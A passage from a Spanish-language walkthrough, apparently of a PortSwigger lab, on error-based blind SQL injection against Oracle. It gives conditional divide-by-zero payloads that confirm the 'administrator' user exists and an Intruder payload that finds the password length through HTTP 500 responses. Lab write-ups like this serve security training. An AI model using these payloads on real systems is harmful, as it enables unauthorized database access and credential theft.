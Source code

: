 entonces podemos jugar con esto para verificar datos, primero veamos si existe el usuario administrador de la tabla users:

```sql
'||(select CASE WHEN (1=1) THEN to_char(1/0) ELSE '' END from users where username='administrator')||
```

nos devuelve error y eso quiere decir que existe por el condicional:

![foto](../Portswigger%20images/SQLi20.png)

porque si colocamos **1=2** se quita el error:

![foto](../Portswigger%20images/SQLi21.png)

ahora tambien podemos ir jugando con la sentencia del condicional, en lugar de **1=1** podemos calcular la longitud exacta de la contraseña, podemos realizar verificar si `length(password=N` donde N seria la longitud exacta de la contraseña y esto lo podemos automatizar con el **intruder** de modo que cuando muestre un estado 500 de error sabremos la logitud de password, senecesita usar una lista de numeros en secuencia del 1 al 50:

```sql
'||(select CASE WHEN (length(password)=§1§) THEN to_char(1/0) ELSE '' END from users where username='administrator')||'
```

![foto](../Portswigger%20images/SQLi22.png)
